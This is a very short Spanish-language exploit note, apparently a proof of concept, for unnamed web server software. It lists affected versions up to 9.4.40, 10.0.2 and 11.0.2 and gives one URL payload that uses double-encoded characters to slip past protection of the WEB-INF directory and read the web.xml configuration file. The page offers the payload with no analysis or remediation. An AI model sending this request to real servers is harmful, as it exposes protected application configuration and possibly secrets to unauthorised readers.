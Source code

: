 <languages />

Versión afectada
----------------

    <= 9.4.40, <= 10.0.2, <= 11.0.2

Payload
-------

    /concat?/%2557EB-INF/web.xml